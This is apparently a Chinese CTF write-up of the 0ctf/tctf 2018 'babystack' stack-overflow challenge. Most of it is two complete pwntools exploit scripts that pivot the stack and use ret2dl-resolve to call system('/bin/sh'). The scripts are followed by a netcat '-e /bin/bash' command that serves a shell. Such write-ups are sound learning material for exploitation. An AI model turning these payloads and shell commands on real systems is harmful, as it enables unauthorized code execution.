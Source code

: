 ```yaml
---
layout: post
title: "0ctf/tctf babystack"
date: 2018-05-07
categories: jekyll update
---
```

### 0ctf/tctf babystack

+ [_dl_runtime_resolve源码](https://code.woboq.org/userspace/glibc/sysdeps/i386/dl-trampoline.S.html)
+ [Return-to-dl-resolve(相当好的一篇理解性文章)](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)
+ [babystack手工](https://www.anquanke.com/post/id/103736)
+ [babystack远程](http://blog.plusls.cn/ctf/0ctf-2018/pwn/babystack/)
+ [babystack用roputils库](https://www.jianshu.com/p/1ade01da9b6b)
+ [ROP之return to dl-resolve](http://rk700.github.io/2015/08/09/return-to-dl-resolve/)

只有一个函数，明显就是一个栈溢出

<img src="/images/posts/0ctf/babystack/1525447243561.png" >

思路，因为溢出的字节不多，而且没有任何泄露函数，所以考虑先进行栈迁移，然后用ret2dlsolve技巧来getshell
可以先到这个[非常详细的学习地址](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)学习然后就可以进行相应的构造


脚本1(不用roputils库)：
**注：这个仅是本地getshell**
```
# -*- coding:utf-8 -*-
from pwn import *
#context.log_level = 'debug'
p = process('./babystack')
elf = ELF('./babystack')

read_plt = elf.plt['read']
alarm_plt = elf.plt['alarm']
pop_ebp_ret = 0x080484eb
ppp_ret = 0x080484e9
pp_ebp_ret = 0x080484ea
leave_ret = 0x08048455
stack_size = 0x800
bss_addr = 0x0804a020   #readelf -S babystack | grep ".bss"
base_stage = bss_addr + stack_size
plt_0 = 0x80482f0 # objdump -d -j .plt babystack
rel_plt = 0x80482b0 # objdump -s -j .rel.plt babystack
index_offset = (base_stage + 28) - rel_plt
alarm_got = elf.got['alarm']
print "alarm_got: ",hex(alarm_got)
print "alarm_plt: ",hex(alarm_plt)
print "read_plt: ",hex(read_plt)
dynsym = 0x080481CC
dynstr = 0x0804822C
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = index_dynsym << 8 | 0x7
fake_reloc = p32(alarm_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)



payload = 'a'*0x28 + p32(bss_addr)
payload += p32(read_plt) + p32(leave_ret) + p32(0) + p32(bss_addr) +     p32(36) 
raw_input("go:")
p.send(payload)

#fake stack 1 bss_addr
payload1 = 'aaaa' #pop ebp
payload1 += p32(read_plt) + p32(ppp_ret) + p32(0) + p32(base_stage) + p32(100)
payload1 += p32(pop_ebp_ret) + p32(base_stage) #fake stack again
payload1 += p32(leave_ret) #leave: mov esp,ebp; pop ebp
p.send(payload1)


cmd = "/bin/sh"
#fake stack 2 base_stage
payload2 = 'bbbb'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'aaaa'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc #base_stage+28
payload2 += 'b' * align
payload2 += fake_sym #base_stage+36
payload2 += "system\x00"
payload2 += 'a' * (80 - len(payload2))
payload2 += cmd +'\x00'
payload2 += 'a' * (100 - len(payload2))
print len(payload2)
p.sendline(payload2)
p.interactive()
```

```
nc 127.0.0.1 7788 -e /bin/bash
nc -l 7788
```

### 用roputils库的脚本



```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import roputils
#from hashlib import sha256

#p = process('./babystack')
p = remote('127.0.0.1',7788)
elf = ELF('./babystack')
'''
p = remote('202.120.7.202',6666)

random = p.recv(16)
print "[*]random"+random
flag=0
print random
for i in range(36,126):
        if flag==1:
                break
        for j in range(36,126):
                if flag==1:
                        break
                for k in range(36,126):
                        if flag==1:
                                break
                        for n in range(36,126):
                                str=chr(i)+chr(j)+chr(k)+chr(n)
                                if sha256(random+str).digest().startswith('\0\0\0'):
                                        hash=str
                                        print hash
                                        flag=1
                                        break

p.send(hash)
'''
payload = "A"*40
payload += p32(0x804a500)
payload += p32(0x8048446)
payload += p32(80)                 # exact length of stage 2 payload
payload += "B"*(64-len(payload))

rop = roputils.ROP('./babystack')
addr_bss = rop.section('.bss')
payload += "A"*40
payload += p32(0x804a500)

# Read the fake tabs from payload2 to bss
payload += rop.call("read", 0, addr_bss, 150)

# Call dl_resolve with offset to our fake symbol
payload += rop.dl_resolve_call(addr_bss+60, addr_bss)

# Create fake rel and sym on bss
payload2 = rop.string("/bin/sh")
payload2 += rop.fill(60, payload2)                        # Align symbol to bss+60
payload2 += rop.dl_resolve_data(addr_bss+60, "system")    # Fake r_info / st_name
payload2 += rop.fill(150, payload2)

payload += payload2
payload = payload.ljust(0x100, "\x00")
print len(payload)
p.sendline(payload)
#p.send("A"*44 + flat(rop) + "A"*(256-44-len(flat(rop))))
p.interactive()
```

